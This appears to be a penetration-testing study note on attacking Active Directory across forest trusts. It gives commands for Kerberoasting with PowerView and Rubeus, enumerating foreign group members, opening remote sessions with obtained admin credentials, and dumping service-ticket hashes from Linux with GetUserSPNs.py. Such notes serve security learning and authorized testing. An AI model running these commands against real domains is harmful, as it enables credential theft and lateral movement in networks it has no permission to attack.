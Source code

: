 Kerberos attacks (Kerberoasting or ASREPRoasting) can be performed across trust, depending on the trust direction. We can utilize PowerView to enumerate accounts in the target domain with SPNs associated to them:
```console
PS C:\zeropio> Get-DomainUser -SPN -Domain <DOMAIN> | select SamAccountName
```

If we see an account with an SPN, check the user to see their privileges:
```console
PS C:\zeropio> Get-DomainUser -Domain <DOMAIN> -Identity <USER> |select samaccountname,memberof
```

Let's perform a Kerberoasting attack across the trust using Rubeus. We can use the flag `/domain:` to do it:
```console
PS C:\zeropio> .\Rubeus.exe kerberoast /domain:<DOMAIN> /user:<USER> /nowrap
```

We can face a bidirectional forest trust managed by admins from the same company. It is worth checking for password reuse accross the two forest in this situation. We may see a Domain Admin or Enterprise Admin from Domain A as a member of the built-in Administrators group in Domain B in a bidirectional forest trust relationship.We can use the PowerView function `Get-DomainForeignGroupMember` to enumerate groups with users that do not belong to the domain:
```console
PS C:\zeropio> Get-DomainForeignGroupMember -Domain <DOMAIN>
```

We can now access other domains if we have the credential for one user:
```console
PS C:\htb> Enter-PSSession -ComputerName <COMPUTER NAME>.<DOMAIN>.LOCAL -CredentiaL <DOMAIN>\administrator
```

SID History can also be abused across a forest trust.

## From Linux 

We can perform this with **GetUserSPNs.py**, using the flag `-target-domain`:
```console
zero@pio$  GetUserSPNs.py -target-domain <DOMAIN 1> <TARGET DOMAIN>/<USER>
```

We can also use the `-request` to get all the hashes and to output to a file with `-outputfile <OUTPUT FILE>`. We can also use [BloodHound.py](https://github.com/fox-it/BloodHound.py). First, add the domain to the `/etc/resolv.conf`{: .filepath}:
```console
cat /etc/resolv.conf 

# Dynamic resolv.conf(5) file for glibc resolver(3) generated by resolvconf(8)
#     DO NOT EDIT THIS FILE BY HAND -- YOUR CHANGES WILL BE OVERWRITTEN
# 127.0.0.53 is the systemd-resolved stub resolver.
# run "resolvectl status" to see details about the actual nameservers.

#nameserver 1.1.1.1
#nameserver 8.8.8.8
domain <DOMAIN>.LOCAL
nameserver <DC IP>
```
